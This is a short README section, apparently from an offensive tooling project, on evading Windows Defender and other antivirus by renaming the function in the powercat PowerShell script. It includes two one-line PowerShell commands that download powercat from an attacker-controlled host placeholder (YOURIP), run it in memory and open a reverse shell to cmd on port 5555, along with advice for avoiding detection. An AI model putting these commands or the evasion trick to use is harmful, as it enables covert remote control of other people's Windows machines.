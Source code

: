# Evading Anti-virus
For the time being, if the powershell script is detected as malware by Windows Defender or other anti-virus software, this issue can be resolved by changing the name of the powerrcatt function.

Open up *powercat.ps1* with ur favorite text editor and change the name of the function powerrcatt to whatever you would like (e.g., powerrrrcat)

Original script:
```
function powerrcatt
{
  param(
    [alias("Client")][string]$c="",
    [alias("Listen")][switch]$l=$False,
    ...
```
Updated script:
```
function powerrrrcat
{
  param(
    [alias("Client")][string]$c="",
    [alias("Listen")][switch]$l=$False,
    ...
```

Make sure that you update the powershell command from earlier to reflect these changes:

Original command:
```
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://YOURIP:70/powercat.ps1');powerrcatt -c YOURIP -p 5555 -e cmd"
```
Updated command:
```
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://YOURIP:70/powercat.ps1');powerrrrcat -c YOURIP -p 5555 -e cmd"
```

# Credits
- Credits to @besimorhino for developing powercat
- Check out the official documentation here: https://github.com/besimorhino/powercat
